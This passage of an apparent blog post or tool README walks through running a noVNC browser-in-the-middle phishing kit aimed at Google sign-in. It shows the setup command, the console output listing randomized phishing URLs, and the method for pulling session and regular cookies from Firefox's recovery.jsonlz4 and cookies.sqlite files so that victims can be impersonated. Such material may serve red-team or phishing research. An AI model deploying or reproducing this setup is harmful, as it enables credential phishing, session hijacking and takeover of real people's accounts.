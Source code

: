 So, everything is clear - then we can start it:

```console
./setup.sh -u 4 -t https://accounts.google.com -d hello.local
```


This will start 4 VNC docker containers (one for every user), will target the url https://accounts.google.com under the domain hello.local (yeah not the best choice but it is a test).

The setup also supports SSL you just need to provide the certificate and the key, then it will run on with HTTPS on port 443. If not provided the setup runs with HTTP on port 80.

When the setup starts it will show you the following output:

```console
./setup.sh -u 4 -t https://accounts.google.com -d hello.local       
[+] Configuration file generated
[-] Starting containers
[+] VNC Containers started                          
[-] Starting reverse proxy
[+] Reverse proxy running
[+] Setup completed
[+] Use the following URLs:
http://hello.local/f325a55604e4d31f5a469d591e2c/conn.html?path=/f325a55604e4d31f5a469d591e2c/websockify&password=f325a55604e4d31f5a469d591e2c&autoconnect=true&resize=remote
http://hello.local/25fcc33508ad8abecac8259223a7/conn.html?path=/25fcc33508ad8abecac8259223a7/websockify&password=25fcc33508ad8abecac8259223a7&autoconnect=true&resize=remote
http://hello.local/7eb3f7dd95feb93ff5ad653e6920/conn.html?path=/7eb3f7dd95feb93ff5ad653e6920/websockify&password=7eb3f7dd95feb93ff5ad653e6920&autoconnect=true&resize=remote
http://hello.local/695ad1ff254ee7806b06835d6b3d/conn.html?path=/695ad1ff254ee7806b06835d6b3d/websockify&password=695ad1ff254ee7806b06835d6b3d&autoconnect=true&resize=remote
[-] Starting Loop to collect sessions and cookies from containers
    Every 60 Seconds Cookies and Sessions are exported - Press [CTRL+C] to stop..
^C
[-] Import stealed session and cookie JSON to impersonate user
[-] VNC and Rev-Proxy container will be removed
[+] Done!
```


The displayed Phishing URLs contain some random strings (in this example f325a55604e4d31f5a469d591e2c) - this should provide some randomness to the URL (to lure the user), hide the vnc connections from scanners and randomize the vnc password.

Next the script will start it's loop to gather cookies and session cookies. To not dive here into too much details (because this was the part of this whole endeavor which drove me near madness) - the loop contains the following steps:

- Copy of the `recovery.jsonlz4` and the `cookies.sqlite` of every noVNC container
- Extraction of the session and cookie information of those files
- Import of the information to the phis.db (- currently this only done to document the gathered information and to enable others to create custom output)
- Creation of two .json files - one for sessions and one for cookies

Alright maybe a little insight - here my own stubbornness came into play. The `noVNC` container uses Firefox as a browser. Firefox handles session cookies and regular cookies different. Regular cookies are saved to a `cookies.sqlite` file - easy to read and understand. Session cookies are saved in memory (better secured but not so good for our purpose). So the first reaction would be to use chromium (which handles cookies and session cookies different than Firefox) - but I wanted to find a way with Firefox. After a lot of googling (and reevaluation of life choices) I stumbled across the file `recovery.jsonlz4`. This file is created by Firefox to save the current state of the browser to ensure it can restore this state in case of an crash - and it contains also the session cookies :).
